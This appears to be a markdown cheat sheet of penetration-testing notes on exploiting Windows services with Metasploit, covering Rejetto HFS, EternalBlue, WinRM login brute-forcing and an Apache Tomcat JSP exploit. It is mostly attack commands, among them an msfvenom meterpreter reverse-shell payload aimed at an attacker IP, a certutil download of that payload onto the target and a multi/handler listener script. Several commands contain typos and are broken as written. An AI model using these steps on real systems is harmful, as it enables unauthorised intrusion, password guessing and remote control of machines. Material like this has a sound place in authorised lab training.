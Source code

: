 
## Exploitation
## Windows Exploitation
### Exploiting Http file Server Rejetto HFS
- service postgresql start
- workspace -a rejetto
- setg- db_nmap -sS -sV -O <target-ip>
- search type:exploit name:rejetto
- use set run
### Exploiting Windows MS17-010 Vulnerability Eternal Blue
- windows vista, 7 ,server 2008, 8.1, server 2012, 10, server 2016
- search etrnalblue
- use set run

### Exploiting WinRM 5985 5986
- /wsman
- db_nmap -sS -sV -O -p- <target-ip>
- search type:auxiliary name:winrm
- use winrm_auth_method
- set run
- search winrm_login
- set user_file common_usrs.txt
- set pass_file unix_passwords.txt
- search winrm_cmd
- search winrm_script_exec
- set force_vbs true

### Exploiting A Vulnerable Apache Tomcat Server
- service postgresql start
- db_nmap -sS -sV -O <target-ip>
- search type:exploit tomacat_jsp
- show options
- info
- set payload java/jsp_shell_bind_tcp
- set shell cmd
- run
- create a payload with msfvenom
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=1234 -f exe > meterpreter.exe- sudo python -m Simplehttp.server 80
- certutil -urlcache -f http://<attacker-ip>:80/meterpreter.exe meterpreter.exe
- create a multihandler script
- nano handler.rc
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set Lhost
set lport
run
```
- msfconsole -r handler.rc
- .\meterpreter.exe
